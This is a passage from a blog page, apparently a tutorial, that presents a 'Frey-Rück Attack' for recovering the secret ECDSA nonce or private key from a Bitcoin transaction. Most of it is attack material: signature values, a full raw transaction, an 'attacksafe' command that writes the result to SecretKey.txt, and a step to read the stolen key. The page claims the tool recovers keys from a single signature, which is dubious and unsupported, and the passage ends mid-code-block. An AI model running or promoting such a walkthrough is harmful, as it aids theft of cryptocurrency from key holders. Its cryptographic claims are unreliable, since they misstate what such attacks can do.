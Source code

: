 

<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-47-1024x243.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-975"></figure>



<pre class="wp-block-code"><code>R = 0x03af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644
S = 0xa66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a
Z = 0xb6d536f025718d424e97ea40e0a86eb32f3f7d3673c4d0decb1a71466235d4de</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool frey_ruck_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-49-1024x318.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-980"></figure>



<p>We launched this attack from&nbsp;<code>-tool frey_ruck_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>



<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-51-1024x484.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-986"></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:
